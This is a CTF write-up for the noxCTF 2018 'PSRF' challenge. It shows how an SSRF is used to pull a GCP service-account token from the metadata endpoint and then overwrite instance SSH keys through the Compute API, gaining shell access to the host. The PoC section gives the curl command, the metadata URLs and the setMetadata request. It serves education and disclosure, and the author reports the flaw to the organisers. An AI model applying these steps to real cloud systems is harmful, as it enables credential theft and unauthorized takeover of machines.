 # noxCTF-2018-PSRF-as-Pwn

## Story
When I was play [noxCTF 2018](https://ctftime.org/event/671), I saw a challenge named PSRF and it under web category, then I thought that might be SSRF, PostScript, or both.  
Then I decided to look at that.
I trying to solve it by the way I think it should be, but I always got HTTP 500 when I trying to access another server, so I decided to use another way to do it.

There are some terms that usually appear on CTF and Information Security Area
- SSRF: [Server-Side Request Forgery](https://en.wikipedia.org/wiki/Server-side_request_forgery)
It is become a common vulnerability after [this presentation by Orange](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)
- PostScript: [Wikipedia](https://en.wikipedia.org/wiki/PostScript)
  Ghostscript is its common interpreter, and there are [multiple vulnerabilities](https://www.exploit-db.com/exploits/45243/) disclose recently. It was one of the [challenge](https://ctftime.org/task/6522) of [TokyoWesterns CTF 4th 2018](https://ctftime.org/event/651)

## Recon
The challenge provide an input box and a radio box, and it will send a HTTP GET request to 
`http://35.241.245.36/api/v1/upload?url=http://your_url&method=get`  
like this, and it will return an image name, and the result of the SSRF will store under `http://35.241.245.36/images/`  
  
The challenge has kubernetes logo on the bottom of the page like the screenshot below, and the IP is 35.241.245.36.  
![Page Screenshot](https://github.com/seadog007/noxCTF-2018-PSRF-as-Pwn/raw/master/%E8%9E%A2%E5%B9%95%E5%BF%AB%E7%85%A7%202018-09-10%20%E4%B8%8A%E5%8D%883.10.19.png)  
  
I immediately realized that is a GCP machine, so I tested the backend server by sending HTTP request to my server to see if it is also on GCP, and it is.  
![GCP determine](https://github.com/seadog007/noxCTF-2018-PSRF-as-Pwn/raw/master/%E8%9E%A2%E5%B9%95%E5%BF%AB%E7%85%A7%202018-09-10%20%E4%B8%8A%E5%8D%883.38.42.png) 

## Cloud Based Attack
I think there is not much people know about [http://metadata.google.internal](http://metadata.google.internal).  
Well, basically, it is a "feature" provided by Google Cloud Platform, you can use it to access information about the project and instances, but it also include the time limited API token of service account under the project. It is enable by the default.

## PoC
1. Sending SSRF Payload and get the result  
```
curl -s 'http://35.241.245.36/images/'`curl -s "http://35.241.245.36/api/v1/upload?url=http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token&method=get"`
```

2. And you will get something like this, one access token, and it's type, which is Bearer.
```
{"access_token":"xxxxxxxxxx","expires_in":3063,"token_type":"Bearer"}
```

3. Doing this for other information we need  
```
http://metadata.google.internal/computeMetadata/v1/project/project-id
http://metadata.google.internal/computeMetadata/v1/instance/name
http://metadata.google.internal/computeMetadata/v1/instance/zone
```

4. Now, you can use this API on your own computer `https://www.googleapis.com/compute/v1/projects/{}/zones/{}/instances/{}`  
  With header
```
Metadata-Flavor: Google
Authorization: Bearer xxxxxxxx_token_from_first_step_xxxxxxxx
```

5. You will get some thing like this.
```
.........................
 ],
 "metadata": {
  "kind": "compute#metadata",
  "fingerprint": "2bsm86CRs-0=",
  "items": [
   {
    "key": "instance-template",
    "value": "projects/720594190990/global/instanceTemplates/gke-psrf-dev-default-pool-9ae6b68d"
   },
   {
    "key": "created-by",
    "value": "projects/720594190990/zones/europe-west1-b/instanceGroupManagers/gke-psrf-dev-default-pool-9ae6b68d-grp"
   },
   {
    "key": "gci-update-strategy",
    "value": "update_disabled"
   }
.........................
```
    We only need the fingerprint

6. Set the ssh key
Send a POST request to this link with the header and data
`https://www.googleapis.com/compute/v1/projects/{}/zones/{}/instances/{}/setMetadata`  
```
Metadata-Flavor: Google
Authorization: Bearer xxxxxxxx_token_from_first_step_xxxxxxxx
Content-Type: application/json
```
```
{
  "fingerprint":"2bsm86CRs-0=",
  "items": [
    {
      "key": "sshKeys",
      "value": "username:ssh-rsa AAAAB..................4KeQzSMFH userid"
    }
  ]
}
```
7. You just replace the original ssh key to yours.
P.S. You can also do this on the whole project.  
The API detail can be found on [Managing SSH keys in Metadata](https://cloud.google.com/compute/docs/instances/adding-removing-ssh-keys)

## Solving the challenge by not its design
I ssh to the server. I know it is using kubernetes, so I run `docker ps`  
![docker ps](https://github.com/seadog007/noxCTF-2018-PSRF-as-Pwn/raw/master/%E8%9E%A2%E5%B9%95%E5%BF%AB%E7%85%A7%202018-09-10%20%E4%B8%8A%E5%8D%883.57.22.png)

Then `docker exec -it xxxxxxxxx /bin/sh`  
Then `ls`

![source code](https://github.com/seadog007/noxCTF-2018-PSRF-as-Pwn/raw/master/%E8%9E%A2%E5%B9%95%E5%BF%AB%E7%85%A7%202018-09-07%20%E4%B8%8B%E5%8D%8811.10.32.png)

Easy, just solved the challenge by looking at the source code

## Follow up
I report this security issue to the team, and just fix it pretty quick.  
![coversation_1](https://github.com/seadog007/noxCTF-2018-PSRF-as-Pwn/raw/master/%E8%9E%A2%E5%B9%95%E5%BF%AB%E7%85%A7%202018-09-07%20%E4%B8%8B%E5%8D%8811.28.22.png)  
![coversation_2](https://github.com/seadog007/noxCTF-2018-PSRF-as-Pwn/raw/master/%E8%9E%A2%E5%B9%95%E5%BF%AB%E7%85%A7%202018-09-07%20%E4%B8%8B%E5%8D%8811.43.38.png)

## Applicable environment
Not only GCP has these kind of management interface, you can also found similar thing on AWS.  
Most of CTF use docker to host challenges, but in most of the challenges that don't limit the network, so it is possible to do a privilege escalation on pwn or web challenges.

## References
[Twistlock Protection for Kubernetes Specific Attacks](https://www.twistlock.com/2018/05/30/twistlock-protection-kubernetes-specific-attacks/)
